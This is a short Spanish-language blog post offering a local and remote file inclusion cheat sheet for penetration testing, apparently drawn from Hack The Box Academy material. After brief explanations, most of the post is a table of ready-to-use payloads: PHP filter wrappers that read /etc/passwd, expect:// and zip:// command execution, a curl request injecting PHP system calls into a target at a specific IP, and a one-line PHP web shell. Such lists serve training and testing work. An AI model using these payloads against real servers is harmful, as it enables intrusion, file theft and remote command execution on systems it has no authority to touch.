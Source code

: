 ```yaml
---
title: Cheet Sheet LFI
layout: post
post-image: "https://previews.123rf.com/images/outchill/outchill1711/outchill171118921/90511399-cheat-sheet-text-on-full-red-rectangle-vintage-textured-stamp-sign-.jpg"
description: Cheet Sheet.
tags:
- post
- hacking
- pentesting
- lfi
- cheet-sheet
---
```


_La vulnerabilidad ‘Local File Inclusion’ permite a un atacante leer un archivo del servidor vulnerable, se produce debido a un error de programación de la pagina._

_La inclusión de archivos locales (LFI) permite a un atacante incluir archivos en un servidor a través del navegador web. Esta vulnerabilidad existe cuando una aplicación web incluye un archivo sin desinfectar correctamente la entrada, lo que permite que un atacante manipule la entrada e inyecte caracteres transversales de ruta e incluya otros archivos del servidor web._

_Remote File Inclusion, su traducción es Inclusión de Archivo Remota. Esta es una vulnerabilidad en la programación web. Puede ser una de las vulnerabilidades más críticas. Esta consiste en utilizar un código maligno almacenado en un host remoto y ejecutarlo en el servidor de la víctima_

<center><img src="https://storage.googleapis.com/attackdefense-public.appspot.com/banners/webapp/local-file-inclusion/banner.png"/></center><br>


> | **Command** | **Description** |
> | --------------|-------------------|
> | `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert > file contents to Base64 |
> | `php://filter/read=string.rot13/resource=/etc/passwd`          | PHP filter to convert > file contents to ROT13 |
> | `expect://id`                                                  | Command execution with > PHP `Expect` wrapper |
> | `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?> language=php://input"` | Using PHP `Input` wrapper for command execution |
> | `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
> | `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

<br>

## Recursos

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[PayloadBox](https://github.com/payloadbox/rfi-lfi-payload-list)

**By [Academy Hack The Box](https://academy.hackthebox.eu/)**